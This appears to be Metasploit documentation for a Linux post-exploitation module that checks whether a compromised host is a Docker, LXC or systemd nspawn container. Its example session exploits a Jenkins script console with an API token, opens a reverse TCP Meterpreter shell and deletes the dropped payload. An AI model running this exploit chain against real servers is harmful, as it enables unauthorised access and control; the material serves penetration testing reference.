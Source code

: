 ## Indicators

  There are several indicators that a process is being executed inside of a container. This module looks for the following indicators:

  1. Presence of `/.dockerenv` file indicates Docker.
  2. Finding select strings in `/proc/1/cgroup` indicates LXC or Docker.
  3. The value of the `container` environment variable in `/proc/1/environ` indicates LXC or systemd nspawn.

## Verification Steps

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. `run post/linux/gather/checkcontainer`
  4. You should get feedback if a container was detected

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

  Check if the jenkins instance you have a shell on is running inside a Docker container.

```
msf > use exploit/multi/http/jenkins_script_console 
msf exploit(jenkins_script_console) > set API_TOKEN bc3dbc5c328733cc826c15772e6eaef5
API_TOKEN => bc3dbc5c328733cc826c15772e6eaef5
msf exploit(jenkins_script_console) > set RHOST 10.0.0.40
RHOST => 10.0.0.40
msf exploit(jenkins_script_console) > set RPORT 8080
RPORT => 8080
msf exploit(jenkins_script_console) > set TARGETURI /
TARGETURI => /
msf exploit(jenkins_script_console) > set TARGET 1
TARGET => 1
msf exploit(jenkins_script_console) > set USERNAME user
USERNAME => user
msf exploit(jenkins_script_console) > run

[*] Started reverse TCP handler on 10.0.0.49:4444 
[*] Checking access to the script console
[*] Authenticating with token...
[*] Using CSRF token: 'b83d12171ba5248100f1de20e6472067' (Jenkins-Crumb style)
[*] 10.0.0.40:8080 - Sending Linux stager...
[*] Sending stage (826840 bytes) to 10.0.0.40
[*] Meterpreter session 1 opened (10.0.0.49:4444 -> 10.0.0.40:54404) at 2017-08-16 20:56:23 -0500
[!] Deleting /tmp/aFdmPcC payload file

meterpreter > run post/linux/gather/checkcontainer 

[+] This appears to be a 'Docker' container
meterpreter > 
```
Detect a LXC container
```
meterpreter > run post/linux/gather/checkcontainer 

[+] This appears to be a 'LXC' container
meterpreter > 
```
Detect a systemd nspawn container
```
meterpreter > run post/linux/gather/checkcontainer 

[+] This appears to be a 'systemd nspawn' container
meterpreter > 
```
Detect nothing
```
meterpreter > run post/linux/gather/checkcontainer 

[*] This does not appear to be a container
meterpreter > 
```